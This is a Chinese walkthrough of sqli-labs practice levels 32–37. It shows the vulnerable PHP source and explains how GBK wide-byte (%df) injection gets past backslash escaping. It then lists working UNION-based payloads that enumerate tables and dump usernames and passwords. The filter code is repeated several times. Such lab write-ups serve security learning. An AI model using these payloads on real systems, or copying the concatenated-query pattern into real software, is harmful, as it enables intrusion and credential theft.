



### 第三十二关

源码

<?php  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  

function check_addslashes($string)  
{  
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash  
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash  
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash  

return $string;  
}  

// take the variables if(isset($_GET['id']))  
{  
$id=check_addslashes($_GET['id']);  
//echo "The filtered request is :" .$id . "<br>";  

//logging the connection parameters to a file for analysis.  
$fp=fopen('result.txt','a');  
fwrite($fp,'ID:'.$id."\n");  
fclose($fp);  

// connectivity   
mysql_query("SET NAMES gbk");  
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";  
$result=mysql_query($sql);  
$row = mysql_fetch_array($result);  

    if($row)  
    {  
    echo '<font color= "#00FF00">';      
    echo 'Your Login name:'. $row['username'];  
    echo "<br>";  
    echo 'Your Password:' .$row['password'];  
    echo "</font>";  
    }  
    else   
{  
    echo '<font color= "#FFFF00">';  
    print_r(mysql_error());  
    echo "</font>";    
    }  
}  
    else { echo "Please input the ID as parameter with numeric value";}  


?>

字符串处理

<?php  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  

function check_addslashes($string)  
{  
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash  
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash  
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash  

return $string;  
}  
?>

<?php  
function check_addslashes($string)  
{  
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash  
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash  
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash  

return $string;  
}  
?>

<?php  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  

function check_addslashes($string)  
{  
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash  
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash  
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash  

return $string;  
}  
?>

<?php  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  

function check_addslashes($string)  
{  
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash  
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash  
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash  

return $string;  
}  
?>



``$string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);``

效果：将每个`\`替换为`\\`(双反斜杠)

`$string = preg_replace('/\'/i', '\\\'', $string);`

效果：将每个`'`替换为`\'`

`$string = preg_replace('/\"/', "\\\"", $string);`

效果：将每个`"`替换为`\"`

preg_quote 函数用于对字符串中的正则表达式特殊字符进行转义，以便在正则表达式中使用这些字符串而不会被解释为特殊字符。
preg_replace 函数用于对字符串进行正则表达式的搜索和替换。

关键函数

`$id=check_addslashes($_GET['id']);`对参数进行过滤

`mysql_query("SET NAMES gbk");`**设置数据库字符集,没这行代码无法进行宽字节注入**

`$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";`单引号闭合


```SQL
宽字节注入，吃掉转义\搞定闭合,这里演示吃掉前后结果的差距
没有吃掉\
?id=1 ' group by 1,2,3--+ 
?id=1 ' group by 1,2,3,4--+回显一样，我们做了那么多关卡已经知道到这里回显不同

sql语句为
SELECT * FROM users WHERE id='$id' LIMIT 0,1
构造的语句插入到查询语句中
SELECT * FROM users WHERE id='1 \' order by 1,2,3,4--+' LIMIT 0,1
细看这个语句，发现id后面只有第一个引号是起到了引号的作用，第二个引号被转义，第三引号被注释，所有根本没有闭合。
```

```SQL
吃掉宽字节后
?id=1 %df' group by 1,2,3--+
?id=1 %df' group by 1,2,3,4--+回显不同了，证明闭合成功了

sql语句为
SELECT * FROM users WHERE id='$id' LIMIT 0,1
构造的语句插入到查询语句中
SELECT * FROM users WHERE id='1 %df\' order by 1,2,3,4--+' LIMIT 0,1
在这里 %df于\会组合到一起，假设 他们组合成为了 军 
那么该查询语句就会变成
SELECT * FROM users WHERE id='1 军' order by 1,2,3,4--+' LIMIT 0,1
这里军字后面的'不再转义完成了闭合。
```

```SQL
?id=1 %df' group by 1,2,3 --+

?id=1 %df' union select 1,2,3 --+
没变化是因为被id=1覆盖了
?id=-1 %df' union select 1,2,3 --+
现错位位后两位，随机挑选一位进行

?id=-1 %df' union select 1,2,database() --+

?id=-1 %df' union select 1,2,(select group_concat(0x5e,table_name,0x5e) from information_schema.tables where table_schema=database())  --+


?id=-1%df' union select 1,2,(select group_concat(0x5e,column_name,0x5e)from information_schema.columns where table_schema=database() and table_name=0x7573657273)--+

因为'security'和'users'中引号也会转义，这里我选择直接用database()替换前者，后者用hex编码绕过
需要注意的是hex编码是编的users而不是'users'
```

### 第三十三关

与上一关几乎没区别,上一关用的自定义函数,而这一关用的php内置函数但功能差不多

```PHP
?id=-1%df' union select 1,2,(select group_concat(0x5e,id,0x5e,username,0x5e,password)from security.users)--+
```

### 第三十四关

闭合方式

        1 %df' or 1=1 #

        这个在burp中才见效,至于为什么我也不知道



爆字段

        1 %df' order by 2#

爆显错位

        1 %df' union select 1,2#

爆数据库

        1%df' union select 1,database()#

爆表名

        1%df' union select 1, group_concat(table_name) from information_schema.tables where table_schema=database()#

爆列名

        1%df' union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273#

直接爆数据

        1 %df' union select 1,group_concat('%',id,username),3 from security.users#

### 第三十五关

       因为是数字型注入，所有源码中转义的函数相当没有直接正常数字型注入即可因为这个数据库的结构已经做了很多遍了这里就直接拿数据了

```PHP
    ?id=-1 union select 1,concat(0x7e,(select group_concat(0x7e,username,0x7e,password) from security.users),0x7e),3--+
```

### 第三十六关

   mysql_real_escape_string() 转义以下字符：`\x00`、`\n`、`\r`、`\`、`'`、`"`、`\x1a`

    和前几关没什么区别,知识这里是get传参

    ?id= -1'%df' union select 1,group_concat(0x7e,id,username),3 from security.users -- qwe

### 第三十七关

    和前几关也没有区别知识函数不同但效果都是相同的

    1%df' union select 1,group_concat(id,username) from security.users#




